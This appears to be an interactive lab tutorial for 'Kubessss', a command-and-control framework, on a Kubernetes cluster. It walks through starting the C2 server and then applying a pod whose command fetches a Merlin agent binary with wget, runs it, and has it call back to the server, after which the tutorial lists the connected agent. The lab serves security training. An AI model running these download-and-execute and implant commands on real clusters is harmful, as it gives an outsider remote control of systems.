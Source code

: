 Here we will see the basic settings of Kubessss.

## Basics of Kubessss

#### Server

	
The server is located in the `controlplane` with a configuration file `config.yaml`.    
The server uses this file to create a listener to a given protocol, interface and port.   
The server IP that should be inside the Interface is `kubectl get nodes -o jsonpath='{ $.items[?(@.metadata.name=="controlplane")].status.addresses[?(@.type=="InternalIP")].address }{"\n"}'`{{execute}}.  

Verify that the `config.yaml` file contains the server IP address: `cat config.yaml`{{execute}}

Start the server `./server`{{execute}}.    
To view the menu, run `help`{{execute}} and to see the list of modules run `use module <TAB>`.  
*You can use the `TAB` in any place to see the list commands.  

Let's continue and see examples.  


`Open`{{execute T3}} new terminal on the master and tart this vulnerable container:  
```
kubectl apply -f - <<EOF
apiVersion: v1
kind: Pod
metadata:
  name: priv-container
spec:
  containers:
  - name: priv-container
    image: ubuntu
    command: [ "sh", "-c", "apt update && apt install wget -y && wget https://github.com/g3rzi/katacodaScenario/releases/download/0.1/merlinAgent-Linux-x64 && chmod +x merlinAgent-Linux-x64 && ./merlinAgent-Linux-x64 -url https://$HOST_IP:443", "sleep infinity" ]
EOF```{{execute T2}}  


Go to the first terminal of the master and check if a new connection was received with the message "New authenticated agent checkin..".  
Then, run `main`{{execute T1}} and then `agent list`{{execute T1}} to see the new connection.  

